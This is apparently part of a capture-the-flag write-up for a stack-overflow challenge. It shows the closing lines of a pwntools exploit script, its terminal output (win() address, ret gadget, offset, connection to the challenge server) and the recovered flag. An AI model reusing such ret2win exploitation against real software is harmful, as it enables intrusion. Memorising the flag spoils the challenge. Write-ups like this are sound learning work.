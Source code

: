 ```
print("server output : ")
response = io.recvall(timeout=2)

print(response)

print()
print(response.decode('latin-1', errors='ignore'))

io.close()
print("closed and if it reached here itll work i think")

```
terminal out : 
```python
C:\Citadel_CTF_Writeups\Return_Of_Stack>python exploit_final.py
win() address: 0x4011a0
ret gadget: 0x40101a

connect ti host
[x] Opening connection to chall_citadel.cryptonitemit.in on port 56743
[x] Opening connection to chall_citadel.cryptonitemit.in on port 56743: Trying 74.225.246.247
[+] Opening connection to chall_citadel.cryptonitemit.in on port 56743: Done
sending offset: 72, length: 88)
server output :
[x] Receiving all data
[x] Receiving all data: 1B
[x] Receiving all data: 33B
[x] Receiving all data: 52B
[+] Receiving all data: Done (52B)
[*] Closed connection to chall_citadel.cryptonitemit.in port 56743
b'\ncitadel{4lw4y5_b0rr0w_&_r3turn}\nyou got the solve!\n'


citadel{4lw4y5_b0rr0w_&_r3turn}
you got the solve!

closed and if it reached here itll work i think
```

## Flag
```
citadel{4lw4y5_b0rr0w_&_r3turn}
```
